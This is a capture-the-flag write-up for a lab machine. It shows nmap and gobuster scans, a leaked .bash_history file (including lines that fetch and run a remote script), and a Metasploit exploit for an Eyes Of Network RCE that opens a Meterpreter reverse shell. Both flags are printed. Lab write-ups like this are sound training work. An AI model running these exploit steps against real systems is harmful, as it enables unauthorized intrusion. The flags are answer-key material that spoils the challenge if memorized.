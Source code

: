 \clearpage
## CTF 01

> Capture The Flag.
> 
> IP: 192.168.10.18
> 
> The flag is stored in the flag.txt file.

> Capture The Flag.
> 
> IP: 192.168.10.18
> 
> The flag is stored in the root.txt file.

### Nmap

To first gain knowledge on what services are running on the machine, a port scan is executed using nmap. With it, all 65535 possible TCP ports are scanned for an answer. If open, the tool will gain information on the running versions.

```bash
$ nmap -sV -Pn $IP -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-13 15:58 CEST
Nmap scan report for 192.168.10.18
Host is up (0.0025s latency).
Not shown: 65527 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.4 (protocol 2.0)
66/tcp   open  http            SimpleHTTPServer 0.6 (Python 2.7.5)
80/tcp   open  http            Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips
	mod_fcgid/2.3.9 PHP/5.4.16 mod_perl/2.0.11 Perl/v5.16.3)
111/tcp  open  rpcbind         2-4 (RPC #100000)
443/tcp  open  ssl/http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips
	mod_fcgid/2.3.9 PHP/5.4.16 mod_perl/2.0.11 Perl/v5.16.3)
2403/tcp open  taskmaster2000?
3306/tcp open  mysql           MariaDB (unauthorized)
8086/tcp open  http            InfluxDB http admin 1.7.9

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.22 seconds
```

The scan shows that there are five known services running:
- OpenSSH on port 22
- A python webserver on port 66
- An apache webserver on port 80 and 443
- A MariaDB database on port 3306
- An admin interface for InfluxDB on port 8086

### Website 1
Since the portscan showed two webservers, these are analysed. On port 66 there is a website, that looks like the website of [Backblaze](https://www.backblaze.com/). On the top is a navigation bar that shows a login button. The navigation seems to be broken, since the content won't change.

![First website](ctf1/website1.png)

After the initial look a gobuster scan is initiated, to gather information on known paths and files.

```bash
$ gobuster dir -u http://$IP:66 -w /usr/share/wordlists/dirb/common.txt -k 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.18:66
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/13 16:10:10 Starting gobuster in directory enumeration mode
===============================================================
/.bash_history        (Status: 200) [Size: 319]
/index.htm            (Status: 200) [Size: 17477]
/index_files          (Status: 301) [Size: 0] [--> /index_files/]
                                                                 
===============================================================
2022/06/13 16:10:15 Finished
===============================================================
```

Gobuster found a file called `.bash_history`, which is a file that is normally stored in the home directory of an user and contains the history of used commands. To show its content, curl is used:


```bash
$ curl http://$IP:66/.bash_history
nano /etc/issue
nano /etc/hosts
nano /etc/hostname
ls
crontab -e
ls
rm index.htm 
wget 192.168.2.43:81/db7i.htm
mv db7i.htm index.htm
nano /etc/hostname
nano /etc/hosts
ls
wget 192.168.2.43:81/logdel2
bash logdel2
wget 192.168.2.43:81/root.txt
mv root.txt flag.txt
nano flag.txt
ls
shutdown -h now
ip a
shutdown -h now
```

In the history file, a `flag.txt` is edited. So we try to request this file.

```bash
$ curl http://$IP:66/flag.txt -k        
cyberctfd{r5KYSTQmMve4KVIoaeaVQH4NUfD7caR6}
```

### Website 2
The second website on port 80 redirects, as expected, to port 443 using TLS and a self signed certficate. It shows a login screen to a service called `Eyes Of Network`

![Second website](ctf1/website2.png)

A link on the bottom of the page redirects so the softwares homepage. On it, there is news article about a security issue. After some research, we found that there is an exploit using meterpreter for CVE-2020-8657 and CVE-2020-8656.

```bash
$ msfconsole

> use exploit/linux/http/eyesofnetwork_autodiscovery_rce
msf6 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > set RHOSTS 192.168.10.18

msf6 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.9.5:1337 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target is EyesOfNetwork 5.3 or older with API version 2.4.2.
[*] Target is EyesOfNetwork version 5.3 or later. Attempting exploitation using CVE-2020-8657 or CVE-2020-8656.
[*] Using generated API key: 41a41f52395de8a08c2de5e1e80ab6f47f5655a53738ec9848f52171143e90d3
[+] Authenticated as user hwAENgHt
[*] Command Stager progress - 100.00% done (897/897 bytes)
[*] Sending stage (3020772 bytes) to 192.168.10.18
[*] Meterpreter session 1 opened (192.168.9.5:1337 -> 192.168.10.18:51476 ) at 2022-06-13 17:12:54 +0200

meterpreter > ls /
Listing: /
==========

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  0      fil   2021-04-03 16:50:18 +0200  .autorelabel
040555/r-xr-xr-x  36864  dir   2021-04-03 19:01:30 +0200  bin
040555/r-xr-xr-x  4096   dir   2021-04-03 19:00:33 +0200  boot
040755/rwxr-xr-x  3120   dir   2022-06-13 09:30:57 +0200  dev
040755/rwxr-xr-x  12288  dir   2022-06-13 09:30:58 +0200  etc
040755/rwxr-xr-x  4096   dir   2021-04-03 16:37:42 +0200  home
040555/r-xr-xr-x  4096   dir   2021-04-03 16:37:53 +0200  lib
040555/r-xr-xr-x  36864  dir   2021-04-03 16:38:08 +0200  lib64
040700/rwx------  16384  dir   2021-04-03 16:34:51 +0200  lost+found
040755/rwxr-xr-x  4096   dir   2018-04-11 06:59:55 +0200  media
040755/rwxr-xr-x  4096   dir   2018-04-11 06:59:55 +0200  mnt
040755/rwxr-xr-x  4096   dir   2018-04-11 06:59:55 +0200  opt
040555/r-xr-xr-x  0      dir   2022-06-13 09:30:51 +0200  proc
040550/r-xr-x---  4096   dir   2022-06-13 10:03:04 +0200  root
100644/rw-r--r--  44     fil   2022-05-15 16:57:57 +0200  root.txt
040755/rwxr-xr-x  1000   dir   2022-06-13 10:03:04 +0200  run
040555/r-xr-xr-x  16384  dir   2021-04-03 16:38:04 +0200  sbin
040755/rwxr-xr-x  4096   dir   2021-04-03 16:37:17 +0200  share
040755/rwxr-xr-x  4096   dir   2021-04-03 16:43:07 +0200  srv
040555/r-xr-xr-x  0      dir   2022-06-13 09:30:53 +0200  sys
041777/rwxrwxrwx  4096   dir   2022-06-13 17:12:55 +0200  tmp
040755/rwxr-xr-x  4096   dir   2021-04-03 16:35:14 +0200  usr
040755/rwxr-xr-x  4096   dir   2021-04-03 16:43:04 +0200  var

meterpreter > cat /root.txt
cyberctfd{cROGRMZeGLNFZ3XIfaeaKoT2OKTB4qhM}

```

The exploit can be used to execute code remotely and open a reverse shell to the attackers machine.